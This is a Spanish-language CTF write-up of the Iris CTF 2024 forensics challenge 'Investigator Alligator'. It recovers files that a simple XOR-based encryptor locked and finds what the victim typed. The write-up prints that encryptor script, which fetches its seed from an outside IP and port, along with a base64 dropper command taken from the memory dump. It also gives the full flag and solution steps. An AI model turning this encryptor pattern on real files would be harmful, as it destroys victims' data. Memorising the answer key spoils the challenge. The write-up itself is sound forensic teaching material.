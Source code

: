 # Investigator Alligator (Iris CTF 2024 - Forensics)

## Challenge
JoSchmoTechCo's server got hit! The folder containing their super duper important company secrets is all locked up. Luckily, the sysadmin was smart enough to be capturing the network traffic and take a memory sample when the whole ordeal went down.

The victim user, in a flurry of blind panic, also typed something after the damage was already done. We have an image of the disk after the event. Can you recover their files and find out what the victim typed?

> Note: the malware contained is rather innocuous, but it's still a bad idea to run untrusted programs off the Internet. Please don't do that.

### Resource
Download option 1 - 
[investigator-alligator.gz](https://shawndxyz.sjc1.vultrobjects.com/ctf/2024.irisctf/investigator-alligator.gz)

Download Option 2 (Mirror) - 
[Mirror investigator-alligator.gz](https://cdn.2024.irisc.tf/investigator-alligator.gz)

**NOTA**: No se incluye el recurso en el repositorio debido a su tamaño.

```bash
ls -lah ./resource
total 31G
drwxr-xr-x 2 jc jc 4,0K ene  7 12:51 .
drwxr-xr-x 3 jc jc 4,0K ene  7 12:51 ..
-rw-r--r-- 1 jc jc  25G ene  7 11:02 investigator-alligator
-rw-r--r-- 1 jc jc 6,4G ene  7 11:05 investigator-alligator.gz
``````

## Solve manual

### Primera parte de la flag

Extraemos el archivo investigator-alligator.gz:

```bash
7z x ./resource/investigator-alligator.gz -o./resource/
```

El archivo contiene datos formateados en el filesystem ext4:

```bash
file investigator-alligator
investigator-alligator: Linux rev 1.0 ext4 filesystem data, UUID=35fa8404-f9cc-45be-b6a5-22351ef2f486 (needs journal recovery) (extents) (64bit) (large files) (huge files)
```

Montamos el filesystem

```bash
sudo mkdir /mnt/investigator-alligator && sudo mount ./resource/investigator-alligator /mnt/investigator-alligator
```

- En root/LiME/src/ encontramos sample.mem, el dump de memoria mencionado en la descripción del challenge.

- En root/capture encontramos network, la captura de tráfico de red mencionada en la descripción del challenge.

En /home/stephen se encuentra el archivo rswenc.py con el contenido:

```py
#!/usr/bin/env python3
import random
import socket
import sys
import time
f_if = sys.argv[1]
f_of = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))
seed = s.recv(1024).strip()
s.close()
random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
encrypted = bytearray()
for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(encrypted)
```

Este script utiliza una operación XOR para cifrar un archivo de entrada y guardar el resultado en un archivo de salida.

`s.connect(("149.28.14.135", 9281))`: Establece una conexión con el servidor en la dirección IP "149.28.14.135" y el puerto 9281. Luego recibe una semilla del servidor.

`random.seed(seed)`: Inicializa el generador de números pseudoaleatorios con la semilla recibida.

`for i in range(len(data)): encrypted.append(data[i] ^ stream[i])`: Realiza la operación XOR byte a byte entre el contenido del archivo de entrada y la secuencia de bytes aleatorios (stream), y guarda el resultado en el objeto bytearray.

Siendo una operación XOR, conociendo el valor recibido en seed, se podrá restaurar el archivo de entrada a su estado original.
Para conocer el valor seed, lo buscaremos en la captura.

```bash
tshark -r network -Y "tcp.port == 9281" -T fields -e data | xxd -r -p
```

![seed](./images/investigator-alligator-seed.png)

Creamos un script rwsdec.py con el mismo contenido que rwsenc.py, eliminando la conexión por sockets y  cambiando la linea `seed =` por `seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"`

Quedando de la siguiente forma:
`rwsdec.py`:

```bash
#!/usr/bin/env python3
import random
import sys

f_if = sys.argv[1]
f_of = sys.argv[2]

seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
decrypted = bytearray()
for i in range(len(data)):
	decrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(decrypted)
```

Lo colocamos en /home/stephen y ejecutamos `python rwsdec.py encrypted.img decrypted.img`

```bash
sudo mkdir /mnt/investigator-alligator-decrypted && sudo mount ./decrypted.img /mnt/investigator-alligator-decrypted 
```

![ls decrypted](./images/investigator-alligator-ls-decrypted.png)

Abrimos la imagen /mnt/investigator-alligator-decrypted/data/super_duper_important_info.png y encontramos la primera parte de la flag: `irisctf{y0ure_a_r3al_m4ster_det3`

### Segunda parte de la flag

En la descripción del challenge dice que el usuario escribió algo al ser hackeado. Por lo tanto buscaremos en el dump de memoria generado por [LiME ~ Linux Memory Extractor](https://github.com/504ensicsLabs/LiME).

Abrimos el archivo /root/LiMe/src/sample.mem en un editor de texto y en la línea 4062972 encontramos:

```bash
echo "I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDx1bmlzdGQuaD4KCmludCBtYWluKCkKewoJY2hhciBidWZmZXJbMTAyNF0gPSB7MH07CgoJcHV0cygiWU9VJ1ZFIEJFRU4gUFdORUQhIik7CglwdXRzKCJXSEFUIERPIFlPVSBTQVkgSU4gUkVTUE9OU0U/Iik7CglmZ2V0cyhidWZmZXIsIDEwMjQsIHN0ZGluKTsKCglwdXRzKCJNRUFOV0hJTEUsIFRIRSBQV05FUiBHT0VTIHp6ei4uLiIpOwoJc2xlZXAoOTk5OSk7Cn0K" | base64 -d > taunt.c
```

El código fuente del programa taunt.c, luego de usar base64 -d es:

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
        char buffer[1024] = {0};

        puts("YOU'VE BEEN PWNED!");
        puts("WHAT DO YOU SAY IN RESPONSE?");
        fgets(buffer, 1024, stdin);

        puts("MEANWHILE, THE PWNER GOES zzz...");
        sleep(9999);
}
```

Ya que el programa muestra *"WHAT DO YOU SAY IN RESPONSE?"* buscamos este texto, y en la línea 867206 encontramos que tal como lo indicaba el challenge, el usuario escribió:

```
YOU'VE BEEN PWNED!
WHAT DO YOU SAY IN RESPONSE?
ctive_ty_f0r_s4v1ng_0ur_d4ta}
MEANWHILE, THE PWNER GOES zzz...
```

Se encontró la segunda parte de la flag: `ctive_ty_f0r_s4v1ng_0ur_d4ta}`. Por lo tanto ya conseguimos la flag completa!


### Flag
Flag: `irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta}`

![Solved](./images/investigator-alligator-solved.png)

## Solve utilizando solve.py
### Requerimientos
El script requiere múltiples packages. La instalación de requerimientos se realiza con el siguiente comando:

```bash
pip install -r requirements.txt
```

Además requiere tener instalado [7z](https://linux.die.net/man/1/7z)

```py
# Run the 7z command to extract files
command = ["7z", "e", "-aos", output_file, capture_to_extract, f"-o{extracted_path}"]
```

### Ejecución
Se deberá ejecutar el siguiente comando:

```bash
python solve.py
```

Mostrará en el output la segunda parte de la flag y el path de la imagen que deberá ser visualizada para obtener la primera parte de la flag.

> Nota: el script descargará el recurso en caso de no existir en ./resource.

![Solved using python script](./images/investigator-alligator-python-solve.png)
